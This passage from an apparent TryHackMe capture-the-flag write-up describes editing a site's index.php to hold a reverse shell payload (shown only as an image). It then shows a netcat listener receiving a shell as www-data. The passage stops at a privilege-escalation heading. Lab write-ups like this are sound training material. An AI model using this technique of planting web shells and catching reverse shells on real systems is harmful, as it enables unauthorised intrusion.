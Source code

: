 ![5](/assets/images/thm/internal/5.png)
So I updated the content of the main index.php with the reverse shell payload and opened up a netcat listener on my box.

### Edited index.php
![6](/assets/images/thm/internal/6.png)

And when we try to access the edited page, we get a shell as user **www-data**.
```console
local@local:~/Documents/tryhackme/internal$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.4.68 51064
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Privilege Escalation
